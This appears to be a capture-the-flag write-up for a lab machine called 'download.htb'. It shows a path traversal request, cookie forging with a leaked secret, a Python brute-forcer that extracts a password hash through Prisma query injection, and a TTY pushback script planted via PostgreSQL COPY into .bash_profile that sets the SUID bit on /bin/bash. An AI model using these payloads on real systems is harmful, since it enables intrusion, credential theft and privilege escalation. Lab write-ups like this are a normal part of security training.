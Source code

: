 # DOWNLOAD

# INITIAL ACCESS

## DISCOVERY

Nmap scans showed ports 22 and 80 open. Port 80 pointed to **download.htb**, which was added to **/etc/hosts**

![](screenshots/01-nmap-scan.png)

Landing page on port 80:

![](screenshots/02-landing-page.png)

It was possible to create an account on the website. Upon logging in, a **download_session** cookie was stored with base64 information which could be decoded.

![](screenshots/03-login-request.png)

![](screenshots/04-b64-decode.png)

## EXPLOIT 1 - PATH TRAVERSAL

Exploring the website, it was discovered a path traversal vulnerability on **/files/download/** by submitting the encoded **/** character: **%2f**. The following payload was used to read **app.js**:

```http
GET /files/download/..%2fapp.js HTTP/1.1
Host: download.htb
```

![](screenshots/05-traversal-req.png)

![](screenshots/06-traversal-res.png)

The **app.js** file contained the secret string to make cookies. With that, we could forge a cookie for the user with id = 1, which is most likely the admin user. For that, [cookie-monster](https://github.com/DigitalInterruption/cookie-monster) was used.

The contents of cookie.json were:

```json
{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":1}}
```

![](screenshots/07-cookie-monster-id.png)

Applying the forged cookie, we discovered that the username of the admin user was **wesley**.

![](screenshots/08-wesley-panel.png)

## EXPLOIT 2 - SQL INJECTION

The web application used [prisma](https://www.prisma.io/docs/getting-started/quickstart) to connect to the database. Further reading the documentation, we discover how to send queries and how to use **"startsWith"** in queries.

With that knowledge, a custom brute-forcer was used to forge a cookie that would loop through ASCII characters to identify the password of **wesley**.

```python
#!/usr/bin/env python3

import string
import subprocess
import json
import re
import requests

regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"

def writeJson(j):
	with open("cookie.json", "w") as f:
		f.write(json.dumps(j))

def generateCookieAndSign(startsWith):
	j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
	writeJson(j)
	out = subprocess.check_output(["/home/kali/.yarn/bin/cookie-monster", "-e", "-f", "cookie.json", "-k", "8929874489719802418902487651347865819634518936754", "-n", "download_session"]).decode().replace("\n"," ")
	matches = re.findall(regex, out, re.MULTILINE)[0]
	return matches

passwd = ""
alphabet="abcdef"+string.digits
for i in range(32):
	for s in alphabet:
		p = passwd + s
		(download_session, sig) = generateCookieAndSign(p)
		cookie = {"download_session": download_session, "download_session.sig": sig}
		print(p, end='\r')
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
			passwd = p
			break
print()
print(passwd)     
```

In the end, a MD5 hash of the password was brute-forced and easily cracked.

![](screenshots/09-wesley-password.png)

![](screenshots/10-password-cracked.png)

The password was also valid for SSH access.

![](screenshots/11-wesley-shell.png)

# PRIVILEGE ESCALATION

## DISCOVERY

Enumerating system files, we discover a file containing the postgreSQL credentials on **/etc/systemd/system/download-site.service**.

![](screenshots/12-psql-creds.png)

Also, we could see that **postgres** was a system user with its home directory on **/var/lib/postgresql**.

![](screenshots/13-postgres-passwd.png)

## EXPLOIT 3 - TTY PUSHBACK

On this box, running **pspy**, it was noted that the root user was logging in the **postgres** account and executing queries every few minutes. We could abuse this to inject commands in the **.bashrc** and **.bash_profile** files. This way, every time the user logged as **postgres**, the commands on **.bash_profile** would be executed.

However, this would only lead to a shell as **postgres**.

To bypass this, an old vulnerability could be leveraged: [TTY Pushback](https://www.errno.fr/TTYPushback.html).

Following the steps on the blog linked, we wrote the following script on **/tmp/inj.py**:

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
	fcntl.ioctl(0, termios.TIOCSTI, char)
```

Then we wrote to **.bashrc** and **.bash_profile** the following contents:

```sql
COPY (SELECT '###') TO '/var/lib/postgresql/.bashrc';
COPY (SELECT 'python3 /tmp/inj.py "chmod +s /bin/bash"') TO '/var/lib/postgresql/.bash_profile';
```

![](screenshots/14-psql-injection.png)

This resulted in adding the SUID bit to **/bin/bash** and becoming root.

![](screenshots/15-root-shell.png)